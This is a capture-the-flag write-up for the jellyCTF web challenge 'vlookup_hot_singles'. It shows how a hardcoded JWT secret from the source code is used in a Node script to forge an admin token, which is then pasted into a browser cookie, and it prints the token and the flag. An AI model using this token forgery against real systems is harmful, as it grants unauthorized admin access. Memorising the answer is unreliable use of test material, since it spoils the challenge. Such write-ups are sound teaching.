 # vlookup_hot_singles

## Difficulty

Easy

## Points earned

100

## Description

> looks like this is some kind of dating site for nerds? weird, figure out who the admin is and access their panel
> 
> 50 point hint: what to do, but not how to do it
> 
> Author: arepi
> 
> https://vlookup-hot-singles.jellyc.tf/

![vlookup_hot_singles website](./images/vlookup_hot_singles.png "vlookup_hot_singles")

## Solution

Forge a JWT to access the admin panel.

The source code gives us some hints about what the JWT should look like:

```python
JWT_SECRET = "singaQu5aeWoh1vuoJuD]ooJ9aeh2soh"

def is_admin(token):
    data = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])
    return data["user"] == "jelly"
```

I wrote a Node script to generate the JWT:

```js
 const sign = require('jwt-encode');
 const secret = 'singaQu5aeWoh1vuoJuD]ooJ9aeh2soh';
 const data = {
     user: "jelly"
 };
 const jwt = sign(data, secret);
 console.log(jwt);
```

Which gives me `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamVsbHkifQ.7wQ41K0c7OZqWaePlf3v0QKuX-jOc4kFqks_eWrfQhE`.

Then I opened Chrome devtools and went to cookies under Application > Storage. Paste the encoded JWT into the token value field and then you should be able to access the admin panel.

![vlookup_hot_singles solution](./images/vlookup_hot_singles_sol.png "vlookup_hot_singles solution")

## Flag

`jellyCTF{i_am_b3c0m3_awawa_d3str0y3r_0f_f3m4135}`
